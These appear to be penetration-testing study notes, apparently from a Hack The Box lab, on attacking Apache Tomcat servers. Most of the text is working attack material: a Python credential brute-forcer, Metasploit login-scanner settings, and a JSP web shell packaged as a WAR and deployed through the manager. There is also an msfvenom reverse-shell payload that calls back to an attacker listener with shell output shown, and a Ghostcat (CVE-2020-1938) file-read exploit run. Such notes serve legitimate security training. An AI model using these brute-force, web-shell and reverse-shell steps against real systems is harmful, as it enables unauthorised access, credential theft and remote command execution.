 
---

---
# Discovery & Enumeration


```c
# Check if the website Running Tomcat
curl http://app-dev.inlanefreight.local:8080/invalid

# Check THe Version
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 
```

```c
# Structure of the tomat website

├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost

# Each Folder inside webapps is expected to have this structure
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class   
```

---
# Initial Enumeration

```c
# Check THe Version
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 


# Directiry Bruteforce
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 
```

# Attacking Tomcat - BruteForce


```c
# login bruteforce
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

> Another Script to bruteforce tomcat application

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```

```c
c4ndy@htb[/htb]$ python3 mgr_brute.py  -h

usage: mgr_brute.py [-h] -U URL -P PATH -u USERNAMES -p PASSWORDS

Tomcat manager or host-manager credential bruteforcing

optional arguments:
  -h, --help            show this help message and exit
  -U URL, --url URL     URL to tomcat page
  -P PATH, --path PATH  manager or host-manager URI
  -u USERNAMES, --usernames USERNAMES
                        Users File
  -p PASSWORDS, --passwords PASSWORDS
                        Passwords Files
```

---
# Attacking Tomcat - War File Upload


```c
c4ndy@htb[/htb]$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
c4ndy@htb[/htb]$ zip -r backup.war cmd.jsp 
```

Click on `Browse` to select the .war file and then click on `Deploy`.

![image](https://academy.hackthebox.com/storage/modules/113/mgr_deploy.png)

This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table.

![](https://academy.hackthebox.com/storage/modules/113/war_deployed.png)

```c
c4ndy@htb[/htb]$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

# Another Way to upload war file

```c
c4ndy@htb[/htb]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

```c
c4ndy@htb[/htb]$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

---
# CVE-2020-1938 : Ghostcat

Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named [Ghostcat](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938). All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable. This vulnerability was caused by a misconfiguration in the AJP protocol used by Tomcat. AJP stands for Apache Jserv Protocol, which is a binary protocol used to proxy requests. This is typically used in proxying requests to application servers behind the front-end web servers.

The AJP service is usually running at port 8009 on a Tomcat server. This can be checked with a targeted Nmap scan.

Attacking Tomcat

```c
c4ndy@htb[/htb]$ nmap -sV -p 8009,8080 app-dev.inlanefreight.local

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

The above scan confirms that ports 8080 and 8009 are open. The PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi). Download the script and save it locally. The exploit can only read files and folders within the web apps folder, which means that files like `/etc/passwd` can’t be accessed. Let’s attempt to access the web.xml.

Attacking Tomcat

```c
c4ndy@htb[/htb]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 

Getting resource at ajp13://app-dev.inlanefreight.local:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

In some Tomcat installs, we may be able to access sensitive data within the WEB-INF file.g

---
---
